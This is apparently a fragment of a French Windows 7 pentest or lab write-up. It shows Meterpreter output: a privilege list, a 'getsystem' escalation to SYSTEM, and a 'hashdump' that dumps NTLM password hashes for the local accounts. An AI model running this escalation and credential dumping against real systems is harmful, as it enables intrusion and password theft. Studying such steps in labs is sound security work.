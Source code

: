 ```shell
SeRemoteShutdownPrivilege
SeRestorePrivilege
SeSecurityPrivilege
SeShutdownPrivilege
SeSystemEnvironmentPrivilege
SeSystemProfilePrivilege
SeSystemtimePrivilege
SeTakeOwnershipPrivilege
SeTimeZonePrivilege
SeUndockPrivilege

meterpreter > getsystem 
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > hashdump 
Admin:1001:aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c:::
Administrateur:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Client:1000:aad3b435b51404eeaad3b435b51404ee:afc44ee7351d61d00698796da06b1ebf:::
Invit�:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

## Rentrer dans Windows7 sans executer le piège

